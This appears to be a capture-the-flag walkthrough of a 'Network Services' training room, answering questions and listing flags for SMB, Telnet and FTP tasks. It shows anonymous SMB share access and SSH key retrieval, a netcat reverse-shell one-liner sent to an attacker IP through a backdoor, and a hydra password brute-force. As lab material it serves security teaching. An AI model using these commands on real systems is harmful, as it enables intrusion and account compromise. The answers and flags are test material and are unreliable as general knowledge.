

> # Network Services

## Summary
- [Summary](#summary)
  - [Task 2 - Understanding SMB](#task-2---understanding-smb)
  - [Task 3 - Enumerating SMB](#task-3---enumerating-smb)
  - [Task 4 - Exploiting SMB](#task-4---exploiting-smb)
  - [Task 5 - Understanding Telnet](#task-5---understanding-telnet)
  - [Task 6 - Enumerating Telnet](#task-6---enumerating-telnet)
  - [Task 7 - Exploiting Telnet](#task-7---exploiting-telnet)
  - [Task 8 - Understanding FTP](#task-8---understanding-ftp)
  - [Task 9 - Enumerating FTP](#task-9---enumerating-ftp)
  - [Task 10 - Exploiting FTP](#task-10---exploiting-ftp)

### Task 2 - Understanding SMB
1. What does SMB stand for?<br>
    > SMB - Server Message Block Protocol - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. 

    **Answer:** Server Message Block

1. What type of protocol is SMB?<br>
    > The SMB protocol is known as a response-request protocol, meaning that it transmits multiple messages between the client and server to establish a connection. 

    **Answer:** response-request

1. What do clients connect to servers using?<br>
    > Clients connect to servers using TCP/IP 

    **Answer:** TCP/IP

1. What systems does Samba run on?<br>
    >  Samba, an open source server that supports the SMB protocol, was released for Unix systems.

    **Answer:** UNIX

### Task 3 - Enumerating SMB
1. Conduct an nmap scan of your choosing, How many ports are open?<br>
    ```
    $ nmap -A 10.10.201.35
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 09:28 UTC
    Nmap scan report for 10.10.201.35
    Host is up (0.31s latency).
    Not shown: 997 closed tcp ports (conn-refused)
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 91:df:5c:7c:26:22:6e:90:23:a7:7d:fa:5c:e1:c2:52 (RSA)
    |   256 86:57:f5:2a:f7:86:9c:cf:02:c1:ac:bc:34:90:6b:01 (ECDSA)
    |_  256 81:e3:cc:e7:c9:3c:75:d7:fb:e0:86:a0:01:41:77:81 (ED25519)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: POLOSMB; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
    |   Computer name: polosmb
    |   NetBIOS computer name: POLOSMB\x00
    |   Domain name: \x00
    |   FQDN: polosmb
    |_  System time: 2025-02-15T09:28:25+00:00
    |_nbstat: NetBIOS name: POLOSMB, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb2-time: 
    |   date: 2025-02-15T09:28:24
    |_  start_date: N/A
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: 0s, deviation: 1s, median: 0s

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 31.59 seconds
    ```
    **Answer:** 3

1. What ports is SMB running on?<br>
    **Anser:** 139/445

1. Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the workgroup name?<br>
    From the above scan, we also have the computer's name.<br>
    **Answer:** WORKGROUP

1. What comes up as the name of the machine?<br>
    <br>
    **Answer:** POLOSMB

1. What operating system version is running?<br>
    <br>
    **Answer:** 6.1

1. What share sticks out as something we might want to investigate?<br>
    <br>

### Task 4 - Exploiting SMB
1. What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?<br>
    **Answer:** smbclient //10.10.10.2/secret -U suit -p 445

1. Does the share allow anonymous access? Y/N?<br>
    ```
    $ smbclient //10.10.201.35/profiles -U anonymous -p 445
    Password for [WORKGROUP\anonymous]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Tue Apr 21 11:08:23 2020
    ..                                  D        0  Tue Apr 21 10:49:56 2020
    .cache                             DH        0  Tue Apr 21 11:08:23 2020
    .profile                            H      807  Tue Apr 21 11:08:23 2020
    .sudo_as_admin_successful           H        0  Tue Apr 21 11:08:23 2020
    .bash_logout                        H      220  Tue Apr 21 11:08:23 2020
    .viminfo                            H      947  Tue Apr 21 11:08:23 2020
    Working From Home Information.txt      N      358  Tue Apr 21 11:08:23 2020
    .ssh                               DH        0  Tue Apr 21 11:08:23 2020
    .bashrc                             H     3771  Tue Apr 21 11:08:23 2020
    .gnupg                             DH        0  Tue Apr 21 11:08:23 2020

                    12316808 blocks of size 1024. 7584028 blocks available
    ```
    **Answer:** Y

1. Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?<br>
    ```
    $ cat "Working From Home Information.txt" 
    John Cactus,

    As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
    possible, employees should work from home. As such- your account has now been enabled with ssh
    access to the main server.

    If there are any problems, please contact the IT department at it@polointernalcoms.uk

    Regards,

    James
    Department Manager
    ```
    **Answer:** John Cactus

1. What service has been configured to allow him to work from home?<br>
    **Answer:** SSH

1. Okay! Now we know this, what directory on the share should we look in?<br>
    **Answer:** .ssh

1. This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?<br>
    **Answer:** id_rsa

1. What is the smb.txt flag?<br>
    The use is in `id_rsa.pub`.<br>
    <br>
    **Answer:** THM{smb_is_fun_eh?}

### Task 5 - Understanding Telnet
1. What is Telnet?<br>
    **Answer:** application protocol 

1. What has slowly replaced Telnet?<br>
    > Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.

    **Answer:** SSH

1. How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?<br>
    **Answer:** The lack of what, means that all Telnet communication is in plaintext?

1. The lack of what, means that all Telnet communication is in plaintext?<br>
    **Answer:** encryption

### Task 6 - Enumerating Telnet
1. How many ports are open on the target machine?<br>
    ```
    Not shown: 65534 closed tcp ports (reset)
    PORT     STATE SERVICE
    8012/tcp open  unknown
    ```
    **Answer:** 1

1. What port is this?<br>
    **Answer:** 8012

1. This port is unassigned, but still lists the protocol it's using, what protocol is this?<br>
    **Answer:** tcp

1. Now re-run the nmap scan, without the -p- tag, how many ports show up as open?<br>
    **Answer:** 0

1. Based on the title returned to us, what do we think this port could be used for?<br>
    ```
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
    |_    SKIDY'S BACKDOOR. Type .HELP to view commands
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8012-TCP:V=7.94SVN%I=7%D=2/16%Time=67B1C836%P=x86_64-pc-linux-gnu%r
    SF:(NULL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20comm
    SF:ands\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20
    SF:to\x20view\x20commands\n")%r(GetRequest,2E,"SKIDY'S\x20BACKDOOR\.\x20Ty
    SF:pe\x20\.HELP\x20to\x20view\x20commands\n")%r(HTTPOptions,2E,"SKIDY'S\x2
    SF:0BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(RTSPReque
    SF:st,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20command
    SF:s\n")%r(RPCCheck,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20v
    SF:iew\x20commands\n")%r(DNSVersionBindReqTCP,2E,"SKIDY'S\x20BACKDOOR\.\x2
    SF:0Type\x20\.HELP\x20to\x20view\x20commands\n")%r(DNSStatusRequestTCP,2E,
    SF:"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%
    SF:r(Help,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20com
    SF:mands\n")%r(SSLSessionReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x
    SF:20to\x20view\x20commands\n")%r(TerminalServerCookie,2E,"SKIDY'S\x20BACK
    SF:DOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(TLSSessionReq,
    SF:2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n
    SF:")%r(Kerberos,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view
    SF:\x20commands\n")%r(SMBProgNeg,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HE
    SF:LP\x20to\x20view\x20commands\n")%r(X11Probe,2E,"SKIDY'S\x20BACKDOOR\.\x
    SF:20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(FourOhFourRequest,2E,"
    SF:SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r
    SF:(LPDString,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x2
    SF:0commands\n")%r(LDAPSearchReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HE
    SF:LP\x20to\x20view\x20commands\n")%r(LDAPBindReq,2E,"SKIDY'S\x20BACKDOOR\
    SF:.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(SIPOptions,2E,"SKID
    SF:Y'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(LAN
    SF:Desk-RC,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20co
    SF:mmands\n")%r(TerminalServer,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP
    SF:\x20to\x20view\x20commands\n")%r(NCP,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\
    SF:x20\.HELP\x20to\x20view\x20commands\n");
    ```
    **Answer:** a backdoor

1. Who could it belong to? Gathering possible usernames is an important step in enumeration.<br>
    **Answer:** skidy

### Task 7 - Exploiting Telnet
1. Great! It's an open telnet connection! What welcome message do we receive?<br>
    ```
    $ telnet 10.10.197.209 8012
    Trying 10.10.197.209...
    Connected to 10.10.197.209.
    Escape character is '^]'.
    SKIDY'S BACKDOOR. Type .HELP to view commands
    ```

1. Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)<br>
    **Answer:** N

1. Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)<br>
    **Answer:** Y

1. What word does the generated payload start with?<br>
    `mkfifo /tmp/offs; nc 10.10.107.28 4444 0</tmp/offs | /bin/sh >/tmp/offs 2>&1; rm /tmp/offs`
    **Answer:** mkfifo

1. What would the command look like for the listening port we selected in our payload?<br>
    **Answer:** nc -lvnp 4444

1. Success! What is the contents of flag.txt?<br>
    <br>
    **Answer:** THM{y0u_g0t_th3_t3ln3t_fl4g}

### Task 8 - Understanding FTP
1. What communications model does FTP use?<br>
    > FTP operates using a client-server protocol

    **Answer:** client-server

1. What's the standard FTP port?<br>
    **Answer:** 21

1. How many modes of FTP connection are there?<br>
    **Answer:** 2

### Task 9 - Enumerating FTP
1. How many ports are open on the target machine?<br>
    ```
    Nmap scan report for 10.10.237.138
    Host is up (0.36s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE
    21/tcp open  ftp
    80/tcp open  http
    ```
    **Answer:** 2

1. What port is ftp running on?<br>
    **Answer:** 21

1. What variant of FTP is running on it?<br>
    ```
    $ nmap 10.10.237.138 -A -p21
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 15:12 UTC
    Nmap scan report for 10.10.237.138
    Host is up (0.41s latency).

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 2.0.8 or later
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.2.38.189
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 4
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
    Service Info: Host: Welcome

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 18.63 seconds
    ```

1. What is the name of the file in the anonymous FTP directory?<br>
    **Answer:** PUBLIC_NOTICE.txt

1. What do we think a possible username could be?<br>
    ```
    $ cat PUBLIC_NOTICE.txt 
    ===================================
    MESSAGE FROM SYSTEM ADMINISTRATORS
    ===================================

    Hello,

    I hope everyone is aware that the
    FTP server will not be available 
    over the weekend- we will be 
    carrying out routine system 
    maintenance. Backups will be
    made to my account so I reccomend
    encrypting any sensitive data.

    Cheers,

    Mike
    ```
    **Answer:** mike

### Task 10 - Exploiting FTP
1. What is the password for the user "mike"?<br>
    ```
    $ hydra -t 4 -l mike -P rockyou.txt -vV 10.10.237.138 ftp
    Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-19 15:18:00
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
    [DATA] attacking ftp://10.10.237.138:21/
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "123456" - 1 of 14344398 [child 0] (0/0)
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "12345" - 2 of 14344398 [child 1] (0/0)
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "password" - 4 of 14344398 [child 3] (0/0)
    [21][ftp] host: 10.10.237.138   login: mike   password: password
    [STATUS] attack finished for 10.10.237.138 (waiting for children to complete tests)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-19 15:18:06
    ```
    **Answer:** password

1. What is ftp.txt?<br>
    ```
    $ cat ftp.txt 
    THM{y0u_g0t_th3_ftp_fl4g}
    ```
    **Answer:** THM{y0u_g0t_th3_ftp_fl4g}
